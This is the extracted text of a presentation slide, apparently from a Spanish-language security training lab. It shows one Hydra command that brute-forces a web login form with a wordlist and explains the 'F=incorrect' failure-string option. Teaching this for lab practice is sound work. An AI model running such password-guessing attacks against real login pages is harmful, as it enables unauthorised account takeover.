

# hydra -l <username> -P <wordlist> MACHINE_IP http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V

Opción

F=incorrect
Descripción
Indica la palabra de error de la página